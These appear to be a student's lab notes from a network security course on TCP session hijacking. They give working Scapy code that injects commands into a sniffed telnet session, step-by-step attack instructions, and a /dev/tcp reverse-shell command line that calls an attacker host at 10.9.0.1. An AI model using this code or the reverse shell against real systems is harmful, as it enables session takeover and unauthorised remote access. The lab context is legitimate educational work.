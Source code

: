 # Task 3: TCP Session hijacking

```python
from scapy.all import *

def sniffAndHijack(pkt):
	old_seq = pkt[TCP].seq
	old_ack = pkt[TCP].ack
	ip = IP(src=pkt[IP].dst, dst=pkt[IP].src)
	tcp = TCP(sport=pkt[TCP].dport, dport=pkt[TCP].sport, flags="A", seq=old_ack+5, ack=old_seq)
	data = "\r echo HIJACK!! >> hello.txt \r"
	spoofedPkt = ip/tcp/data
	send(spoofedPkt,iface="br-c26fa13374f9")
sniff(iface='br-c26fa13374f9', filter='tcp and src host 10.9.0.5 and src port 23', prn=sniffAndHijack)
```
1. spoofed a packet by swapping the `source` and `destination` `IP` and `ports`, with the sequence number as the `ack` number of the previous packet plus a small number, `5` in this case. the `ack` number for the spoofed packet is the old `seq number` of the previous packet
2. send the command that you want to execute, in this case `echo hijack >> hello.txt` which creates a hello.txt file in the server machine with content hijack
3. construct the spoofed packet
4. send it out

## Steps to carry out attack
1. On victim machine telnet into the server machine using `telnet <IP> <port>`, you will be prompted to enter the `username` and `password`
2. On the `attacker` machine, run the hijack code to watch for the tcp packets that is a `reply` from the server back to the client
3. try to run ls on the `telnet` session, after `5` successful telnet requests, the session hanged, because they realised that there are multiple packets of the same `seq` number being sent
4. reopen the telnet session and `ls` again, you will see a `hello.txt` file in the directory, and run `cat hello.txt` will output `hijack`
## Result
### Telnet session hanging
![Pasted image 20231001160025.png](/img/user/Study/50.020%20Network%20Security/attachments/Pasted%20image%2020231001160025.png)
### Running hijack code on the server
![Pasted image 20231001160049.png](/img/user/Study/50.020%20Network%20Security/attachments/Pasted%20image%2020231001160049.png)
### Hijack result
![Pasted image 20231001160126.png](/img/user/Study/50.020%20Network%20Security/attachments/Pasted%20image%2020231001160126.png)

# Task 4: Reverse Shell

Use the same code as task 3  and change the data to send to the command to setup reverse shell
`\r /bin/bash -i > /dev/tcp/10.9.0.1/9090 0<&1 2>&1 \r`
